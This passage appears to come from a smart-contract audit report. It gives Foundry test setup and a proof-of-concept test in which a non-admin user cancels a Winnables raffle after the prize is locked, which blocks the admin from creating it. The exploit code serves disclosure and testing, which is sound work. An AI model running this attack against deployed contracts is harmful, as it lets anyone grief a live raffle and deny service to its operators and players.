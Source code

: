 ```solidity

        // avalanche
        vm.selectFork(avalancheFork);
        vm.startPrank(admin);
        tickets = new WinnablesTicket();
        ticketManager = new WinnablesTicketManager(
            avalancheNetworkDetails.linkAddress,
            vrfCoordinator,
            subscriptionId,
            keyHash,
            address(tickets),
            avalancheNetworkDetails.routerAddress
        );
        ticketManager.setCCIPCounterpart(address(prizeManager), ethereumNetworkDetails.chainSelector, true);
        ccipLocalSimulatorFork.requestLinkFromFaucet(address(ticketManager), 1 ether);
        vm.stopPrank();
    }

    // PASTE POC HERE
}
```

4. Now add the following test to the file:

```solidity
function test_CancelRaffleBeforeCreation() external {
        // Admin locks in the prize on Ethereum
        vm.selectFork(ethereumFork);
        hoax(admin, 10 ether);
        prizeManager.lockETH{value: 1 ether}(address(ticketManager), avalancheNetworkDetails.chainSelector, 1, 1 ether);
        ccipLocalSimulatorFork.switchChainAndRouteMessage(avalancheFork);

        vm.selectFork(avalancheFork);
        (,,,,,, IWinnables.RaffleStatus statusBefore,) = ticketManager.getRaffle(1);
        // check if raffle status was updated in _ccipReceive
        assertEq(uint256(statusBefore), uint256(IWinnables.RaffleStatus.PRIZE_LOCKED));

        // malicious user alice cancels the raffle
        vm.prank(alice);
        ticketManager.cancelRaffle(address(prizeManager), ethereumNetworkDetails.chainSelector, 1);

        (,,,,,, IWinnables.RaffleStatus statusAfter,) = ticketManager.getRaffle(1);
        // check if raffle status is now set to CANCELED
        assertEq(uint256(statusAfter), uint256(IWinnables.RaffleStatus.CANCELED));

        // createRaffle reverts as expected, admin unable to start raffle
        vm.prank(admin);
        vm.expectRevert(IWinnablesTicketManager.PrizeNotLocked.selector);
        ticketManager.createRaffle(1, uint64(block.timestamp), uint64(block.timestamp + 100), 5, 10, 2);
    }
}
```
